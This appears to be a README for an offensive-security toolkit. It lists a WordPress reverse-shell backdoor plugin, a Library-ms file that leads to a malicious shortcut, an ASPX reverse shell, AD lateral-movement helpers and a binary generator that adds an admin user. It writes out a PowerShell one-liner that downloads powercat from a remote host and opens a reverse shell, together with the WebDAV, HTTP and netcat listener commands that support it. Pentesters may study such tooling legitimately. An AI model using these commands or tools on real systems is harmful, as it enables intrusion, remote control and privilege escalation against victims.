 ### <b>offensive</b><br/>
Tips and tricks etc. for offensive<br/>
<br/>
<b>BackdoorPlug.php</b><br/>
A WordPres plugin containing reverse shell. <br/>
Prerequirements: you need access to the WP to upload and activate plugins.<br/>
Just change the host/port to whatever your listener is running on and maybe adjust the shell accordingly too, then just zip it, upload the zip as a plugin and activate the plugin to get connected with the WP-instance.<br/>
<br/>
<b>checklist</b><br/>
A very basic list of pentest steps.<br/>
<br/>
<b>config.Library-ms</b><br/>
A config library file to open a connection to the address defined in the simple location url, which for example serves malicious Windows shortcut to execute some nasty powershell like:<br/>
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:9090/powercat.ps1'); powercat -c 192.168.12.34 -p 4000 -e powershell"<br/>
Here you should have the following: wsgidav (WebDAV: wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/username/webdav/) server running, serving the Windows shortcut file, which runs the command above, a Python httpd (python -m http.server 9090) serving the powercat.ps1 and a netcat listener (nc -nvlp 4000) to catch the resulting reverse shell.<br/>
<br/>
<b>dorks.google</b><br/>
Some random Google dorks to leverage while enriching your case data<br/>
<br/>
<b>enumhelper.ps1</b><br/>
A helper script for AD enumeration and lateral movement. Built on-the-go so might contain a lot of logical fallacies and missing lots of error checks.<br/>
Check the help section before running: .\enumhelper.ps1 "help" for somewhat of instructions.<br/>
Can do: <br/>
  - LDAP queries<br/>
  - User/pass testing over LDAP-query<br/>
  - List all properties of LDAP response object<br/>
  - Get the value of a specific LDAP property<br/>
  - Get all SPNs and related objects<br/>
  - Check if any SPNs are tied to a (service)account<br/>
  - Get DC info: name, hostname, OS, OS version, IPv4 and IPv6<br/>
  - Get AD device info: name, hostname, OS, OS SP, OS version, IPv4 and IPv6<br/>
  - Get AD user/group info by SID (converting a SID to a name for example)<br/>
  - Create PsExec.exe or PsExec64.exe<br/>
  - SID lookup from AD<br/>
  - DCOM lateral movement leveraging MMC<br/>
    - Also the possibility of building a reverse-shell command and initiating it on the target<br/>
  - Remote connectiong over PowerShell<br/>
  - Remote commands over WMI, WINRS, PsExec or PsExec64:<br/>
    - Also the possibility of building a reverse-shell command and initiating it on the target<br/>
<br/>
<b>nix-shell-tricks</b><br/>
Common tips and tricks etc. to use in Linux shell when being offensive or otherwise enumerating<br/>
<br/>
<b>php-trickery</b><br/>
Some PHP-tricks for offensive security<br/>
<br/>
<b>reverse_shell.aspx</b><br/>
Not my creation, credit goes to INSOMNIA SECURITY :: InsomniaShell.aspx, brett.moore@insomniasec.com ::  www.insomniasec.com<br/>
<br/>
<b>sqli-tips</b><br/>
Tips for SQL injections</br>
<br/>
<b>winbin.sh</b><br/>
Whip up custom executable/dll on the fly. So far only supports creating a x64 executable/dll for adding a defined user with a defined password to the Administrators group or changing an existing user's password. <br/>
For example if you need to replace a bin which you have full control over to gain further foothold or to leverage a missing DLL etc.<br/>
<br/>
<b>windows-shell-tricks-and-ad-tips</b><br/>
Common tips and tricks etc. to use with PowerShell / cmd when being offensive or otherwise enumerating and getting to know AD<br/>
